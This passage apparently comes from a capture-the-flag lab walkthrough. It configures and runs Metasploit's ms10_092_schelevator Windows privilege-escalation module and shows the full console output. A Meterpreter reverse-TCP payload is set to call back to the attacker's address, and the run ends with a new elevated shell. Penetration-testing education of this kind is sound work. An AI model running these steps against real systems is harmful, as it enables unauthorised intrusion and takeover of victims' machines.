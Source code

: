 We specify the **session number** to run this module on and the payload we want along with the local port to listen on for the reverse shell.

> We can't use the same port as our previous reverse shell or no session will be created.

```bash
msf exploit(windows/local/ms10_092_schelevator) > set SESSION 1   # The session number of our reverse shell (sessions -l to display them)
SESSION => 1
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp   # If the exploit works, we want a new reverse shell
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT 4445  # The local port to listen on
LPORT => 4445
msf exploit(windows/local/ms10_092_schelevator) > set LHOST 10.10.13.75  # Ip address of our machine
LHOST => 10.10.13.75
```

Then, we can launch the exploit:

```bash
msf exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.13.75:4445 
[*] Preparing payload at C:\Windows\TEMP\FIydYyMVXS.exe
[*] Creating task: sMVszFGn5xTj
[*] SUCCESS: The scheduled task "sMVszFGn5xTj" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\sMVszFGn5xTj...
[*] Original CRC32: 0xa1c992cd
[*] Final CRC32: 0xa1c992cd
[*] Writing our modified content back...
[*] Validating task: sMVszFGn5xTj
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] sMVszFGn5xTj                             11/1/2018 9:14:00 PM   Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "sMVszFGn5xTj" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "sMVszFGn5xTj" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] SUCCESS: Attempted to run the scheduled task "sMVszFGn5xTj".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.13.75:4445 -> 10.10.10.93:49162) at 2018-10-28 20:14:13 +0100
[*] SUCCESS: The scheduled task "sMVszFGn5xTj" was successfully deleted.
[*] SCHELEVATOR

meterpreter > 
```
